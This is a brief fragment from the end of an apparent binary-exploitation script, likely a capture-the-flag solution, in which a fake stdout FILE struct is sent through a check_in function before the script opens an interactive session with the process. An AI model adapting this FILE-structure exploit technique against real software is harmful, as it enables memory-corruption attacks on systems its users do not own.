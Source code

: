 ```py
        # call check_in since it calls puts after the fread and send in the fake stdout struct
        check_in(bytes(fake_stdout))

p = start()
exploit = Exploit(p)
exploit.run()
p.interactive()
```